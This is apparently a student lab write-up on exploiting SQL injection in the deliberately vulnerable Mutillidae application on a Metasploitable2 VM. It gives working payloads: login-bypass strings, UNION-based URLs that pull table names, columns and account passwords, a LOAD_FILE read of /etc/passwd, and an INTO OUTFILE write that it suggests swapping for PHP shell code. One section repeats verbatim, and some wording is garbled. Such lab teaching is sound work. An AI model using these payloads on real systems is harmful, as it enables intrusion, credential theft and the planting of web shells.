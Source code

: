 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/fcff12b8-2fac-4c61-b1bc-e92d5bb0be95)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/b76879fa-4a43-4d8f-b16f-4f2f31159979)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c1280ee0-adad-409e-bc71-7d79e99df9a1)
Click on the menu Login/Register and register for an account
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/342afadd-8209-41ee-b110-955d18d1f9dd)
Click on the link “Please register here”
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e44d8f2a-58a7-41cd-aa87-44104c4f9b6c)
Click on “Create Account” to display the following page:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4b4feb62-6691-4265-bb47-c639720bb930)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/ade3a828-92d0-4f6d-94e4-00fad6808a6b)
Click “Login”. The logged in page will show as below:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/5950938d-b720-410e-ba3f-eef14b065fdc)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/eb69f220-af20-4bd3-aac9-45731f6623ba)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/58ea7d70-1a83-4ef1-9201-df9365199229)
Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/7dec9c8e-70e1-49b0-9997-748d45f81836)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c3a3ca3d-6b73-4fac-aa62-7aa952d8cfa2)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/a7ea6b3c-10d0-4bb9-9985-934d2cf2b624)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e6660171-7b81-40b3-8722-a22710700922)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/ccb96ae8-0976-43f0-bf12-442b0d1614e5)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/43c86048-1c5e-464b-a19c-2c2a2ff3d350)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4d9bd9f4-e670-4a84-9b1b-2083b9177f8b)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e09c7e21-04dc-44a0-830e-ee3050ef1853)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/40973f2a-4e71-4e86-8a77-bc924b923e38)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/29d84c00-8fca-47f3-9cbf-6be038749af0)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e44c1e18-013b-4df5-be49-721d0d54aea4)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/9eb7e918-d3ce-4f18-9e1b-97fdbeb3fbde)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c4863a6c-a2cb-4172-86a9-5680bbf7a05c)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e88fc598-552d-4452-b166-74c6de989bdf)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/397dcc26-1e50-4a3d-a29c-925f1708255d)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4b2bc819-ead6-46e5-a2af-f0ad5f8c06b2)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/af021188-9259-429b-8af2-e1e710eb6b45)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/20d94dd5-486d-4b9d-ab2a-14f77c5f6a0c)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/7a368f02-71ae-47bb-ae84-c12cfe7f624c)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/d46483e0-2a60-43d3-81fe-968d19b6677d)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/14c40630-fcd7-4006-9e5b-ffc1c5317bbd)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
